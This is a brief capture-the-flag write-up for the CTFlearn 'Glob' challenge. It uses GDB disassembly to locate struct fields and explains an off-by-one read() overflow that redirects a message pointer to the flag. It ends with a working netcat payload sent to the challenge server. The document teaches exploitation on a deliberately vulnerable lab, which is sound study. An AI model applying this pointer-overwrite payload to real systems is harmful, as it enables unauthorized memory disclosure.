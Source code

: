 # [Glob](https://ctflearn.com/challenge/1246)

[Packed Structures](https://www.gnu.org/software/c-intro-and-ref/manual/html_node/Packed-Structures.html)

GDB -> disas main:

```gdb
.
.
0x00000000004012ba <+104>:  call   0x4010c0 <printf@plt>
0x00000000004012bf <+109>:  lea    rax,[rip+0x2dda]        # 0x4040a0 <program_data+32>
0x00000000004012c6 <+116>:  mov    QWORD PTR [rip+0x2df3],rax        # 0x4040c0 <program_data+64>
0x00000000004012cd <+123>:  mov    edx,0x21
0x00000000004012d2 <+128>:  lea    rax,[rip+0x2dc7]        # 0x4040a0 <program_data+32>
0x00000000004012d9 <+135>:  mov    rsi,rax
0x00000000004012dc <+138>:  mov    edi,0x0
0x00000000004012e1 <+143>:  call   0x4010d0 <read@plt>
.
.
```

`program_data.message` is at **0x4040c0** \
`program_data.username` is at **0x4040a0** \
`program_data.flag` must be at **0x404080**

The `read()` accepts 33 bytes but `username[]` is just 32 bytes, so 1 byte of `message` can be overwritten so that it points to `flag[]`:

```shell
echo -n -e "hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh\x80" | nc rivit.dev 10022
```
